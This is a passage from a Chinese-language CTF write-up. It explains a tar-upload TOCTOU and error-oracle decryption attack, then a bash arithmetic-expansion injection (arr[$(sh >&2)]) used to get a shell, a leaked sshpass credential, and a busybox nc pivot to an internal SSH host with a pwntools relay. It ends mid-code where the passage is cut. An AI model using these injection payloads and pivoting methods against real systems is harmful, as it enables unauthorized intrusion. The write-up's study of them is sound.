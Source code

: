 另一方面，当不添加任何数据时，我们可以download获得完整的IV和cipher，同时我们非常清楚明文是什么，就是空tar，即：

```python
with tarfile.open("a.tar", 'w') as f:
    pass
```

因而我们可以做到在upload流程中上传任何tar文件走解压流程或解密流程。然而，upload流程是需要IV的，绕过的方法是这样一个TOCTOU：
```python
for fname in f.getnames():
    self.data[fname] = 1

# make above succeed and below fail 
f.extractall(path=self.dir)
```
即需要在`f.getnames()`流程中成功，但是`extractall`流程中失败。一个可行的方案是，如果我们在tar里打包一个同名的文件夹，因为Linux文件系统不允许同名的文件和文件夹，所以解压过程会失败，flag文件不会被覆盖，但是`self.data`已经改了，我们就可以正常在`download`过程中获得IV了。最后我们通过异或破坏掉tar结构，走一遍解密流程，通过报错信息就可以获取到原始明文了。（原始明文是包含flag文件的tar）

`flag{s0_....___wHat_hApPeneD_w1Th_My_t4rfI1E?_:/}`

## math exam
以bash为主题的一道题，学习了不少bash的特性，很有意思

### 1. Arithmetic expansion RCE
给了一段代码，是一个bash写的简单算数考试程序。我们只关注和用户输入有关的部分，有两处
```bash
read userinput

if [ "$userinput" = "$promisetext" ]
then
...
ans=$(($i+$i))
read line

if [[ "$line" -eq "$ans" ]]
then
...
```
很显然第二处`[[]]`的arithmetic expansion要更强一点。通过查阅bash manual可以发现很多很有趣的现象，比如可以在里面嵌入`a=1`这样的赋值语句来做赋值。然而为了命令执行我们需要类似`$()`或者` `` `这样的语法。

于是我谷歌到了这篇博客：[https://research.nccgroup.com/2020/05/12/shell-arithmetic-expansion-and-evaluation-abuse/](https://research.nccgroup.com/2020/05/12/shell-arithmetic-expansion-and-evaluation-abuse/)，发现在数组下标里可以无代价使用`$()`，比如`arr[$(ls)]`就可以在报错信息里拿到回显，自然也可以`arr[$(cat flag1)]`拿到flag1。

另外，尝试一下会发现`arr[$(sh)]`能执行命令，但是只能看到报错回显而看不到正常命令回显。很容易想到`arr[$(sh >&2)]`能解决这个问题拿到正常的shell。

### 2. busybox nc to ssh
拿到shell之后进行一些简单的信息收集，很容易发现根目录有个`.connect.sh.swp`即vim临时文件，结尾有个很可疑的ssh连接语句：`sshpass -p x5kdkwjr8exi2bf70y8g80bggd2nuepf ssh ctf@second`。这个`second`向我们提示了flag2的所在地，ssh的用户和密码也有了，那么我们就需要以这台机器作为跳板连接second服务器。

不过很快我们会发现这台机器没有装ssh，不过有个busybox。直接运行busybox可以看到里面包含的命令，包括`nc`。既然如此，我们可以`busybox nc second 22 1>&2`手动连接SSH端口，然后把一个ssh客户端的通信转发到这个nc里，即自己实现一个代理。`pwntools`可以比较好的实现这一点，比如：
```python
print('start listen on 20228')
sock_input = listen(20228)
conn_input = sock_input.wait_for_connection()
print('establish on 20228')

while True:
    res = b''
    while frag := conn.recv(65536, timeout=.01):
        res += frag

```